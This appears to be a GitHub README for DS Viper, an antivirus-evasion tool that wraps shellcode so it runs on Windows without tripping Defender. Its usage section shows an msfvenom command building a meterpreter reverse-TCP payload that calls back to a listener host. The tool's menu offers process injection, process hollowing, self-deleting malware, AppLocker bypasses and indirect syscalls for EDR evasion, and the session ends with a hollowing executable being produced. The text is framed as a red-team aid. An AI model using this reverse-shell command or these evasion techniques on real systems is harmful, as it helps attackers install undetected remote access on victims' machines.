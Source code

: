 # 🐍 **About DS Viper**

**DS Viper** is a powerful tool designed to **bypass Windows Defender's security mechanisms**, enabling seamless execution of payloads on Windows systems without triggering security alerts. It utilizes a combination of **advanced techniques** to manipulate and disguise payloads, providing cybersecurity professionals, red teamers, and penetration testers with a **robust solution** for achieving undetected access.

Whether you're simulating real-world attacks or conducting comprehensive security audits, **DS Viper** serves as an essential tool for testing and improving system defenses.

> **We are constantly working on DS Viper** to enhance its capabilities, improve evasion techniques, and introduce customizable features such as the ability to add your own payloads or keywords.

---

<p align="center">
  <img src="https://github.com/dagowda/DSViper/blob/c24161c9c055bd94be03624cf8d1c8d9849df59c/img/screenshot1.jpg" alt="image_alt">
</p>

# ✔️ **Installation**

Clone the repository and set up the environment.

### **Option 1: Manual Installation**
```bash
git clone https://github.com/dagowda/DSViper.git
cd DSViper
pip install -r requirements.txt
```

### **Option 2: Scripted Installation(Recommended)**
If you prefer an automated setup, use the provided script:

```bash
chmod +x install_dependencies.sh
./install_dependencies.sh
```

---

# ⚙️ **Usage**

Make the `DSViper` executable and run it:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.130.175 LPORT=443 -f raw > payload.bin
./DSViper

░▒▓███████▓▒░ ░▒▓███████▓▒░      ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓███████▓▒░░▒▓████████▓▒░▒▓███████▓▒░  
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░             ░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░ 
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░              ░▒▓█▓▒▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░ 
░▒▓█▓▒░░▒▓█▓▒░░▒▓██████▓▒░        ░▒▓█▓▒▒▓█▓▒░░▒▓█▓▒░▒▓███████▓▒░░▒▓██████▓▒░ ░▒▓███████▓▒░  
░▒▓█▓▒░░▒▓█▓▒░      ░▒▓█▓▒░        ░▒▓█▓▓█▓▒░ ░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░ 
░▒▓█▓▒░░▒▓█▓▒░      ░▒▓█▓▒░        ░▒▓█▓▓█▓▒░ ░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░      ░▒▓█▓▒░░▒▓█▓▒░ 
░▒▓███████▓▒░░▒▓███████▓▒░          ░▒▓██▓▒░  ░▒▓█▓▒░▒▓█▓▒░      ░▒▓████████▓▒░▒▓█▓▒░░▒▓█▓▒░ 
                                                                                             
................................................ 
                      AntiVirus Bypass Tool (v.0.2.1)   
---------------------------------------------------------                                                                                                            
Created by Dhanush Gowda(dagowda) and Sumanth Vanki                                                                                                                  
---------------------------------------------------------                                                                                                            
................................................                                                                                                                     
                                                                                                                                                                     
                                                                                                                                                                     
You sure you want to Continue?(Use it ethically, and in lab enviroments only) y/n: y                                                                                 
Enter your payload choice:                                                                                                                                           
1.)self-injection(XOR)                                                                                                                                               
2.)self-injection(AES)                                                                                                                                               
3.)Process Injection(spoolsv)(Can be used for lateral movement)                                                                                                      
4.)Process Hollow                                                                                                                                                    
5.)Self Deleting Malware(HAVE TO WAIT, CLOSE TO A MINUTE FOR THE PAYLOAD TO EXECUTE)                                                                                 
6.)DLL side-load/rundll32 applocker bypass                                                                                                                           
7.)Process Injection(explorer.exe)                                                                                                                                   
8.)Powershell(Will bypass with cloud detections enabled as well)(Make sure to run this payload twice)(use x64 payload only)                                          
9.)Applocker bypass small shellcodes(Make sure to use x86 payloads)(Also make sure to change the .exe file name after everyrun on the same victim)(Make sure you run this payload twice)                                                                                                                                                  
10.)Applocker bypass Havoc/large shellcodes(use x86 payloads only)                                                                                                   
11.)Indirect Syscall(Windows 10)(Possible EDR bypass loader)                                                                                                         
>4                                                                                                                                                                   
Please type in the shellcode file name: payload.bin                                                                                                                  
Selected Havoc payload blind eye 1                                                                                                                                   
[*]Payload successfully created as DSViper_hollow.exe
```

---

## 📄 **Notes**
- Ensure you have **Python 3.8+** installed.
- Run the commands in a terminal with the required permissions.


![image_alt](https://github.com/dagowda/DSViper/blob/c9bc60a60bc73fb523a935b8d188fbec5b1521fa/img/screenshot2.png) 
  
